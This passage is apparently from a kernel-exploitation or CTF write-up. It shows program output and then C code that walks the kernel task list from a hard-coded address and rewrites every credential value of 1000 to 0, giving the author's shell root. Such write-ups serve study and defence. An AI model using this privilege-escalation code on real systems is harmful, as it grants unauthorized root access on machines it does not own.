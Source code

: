 ```bash
   Found 1000 at index 16
   Found 1000 at index 20
   Found 1000 at index 24
   Found 1000 at index 28
   Found 1000 at index 32
/ $ 
```

Looks like it is doing what we want.

## Getting root!

At this point, my next idea was to find the current task, change its
credentials to 0 and exploit from here.

But, I wanted to try something simpler first: what if we find **all**
tasks that are running as PID 1000 and change that to 0? This will
have a nice property of also changing parent shell, giving us instant
root.

### Walking the task list, "fixing" creds as needed

```c
(...)

#define INIT_TASK 0xffffffff82211740
#define O_NEXT    0x388
#define O_CRED    0x618
#define BUF_SIZE  0x1000

int main() {
  open_pipeline();
  unsigned long task = INIT_TASK;
  copy_to_user(&task, (void*)(task+O_NEXT), 8);
  while((task-O_NEXT)!=INIT_TASK) {
    printf("Found process at 0x%lx\n", task-O_NEXT);
    void *cred_ptr;
    copy_to_user((void*)&cred_ptr, (void*)(task-O_NEXT+O_CRED), 8);
    int cred[16];
    copy_to_user(&cred, cred_ptr, sizeof(cred));
    for (int i=0;i<16;i++)
      if (cred[i]==1000) {
        printf("   Found 1000 at index %d\n", i*sizeof(int));
        cred[i]=0;
      }
    copy_from_user(cred_ptr, &cred, sizeof(cred));
    copy_to_user(&task, (void*)(task), 8);
  }
  return 0;
}
```

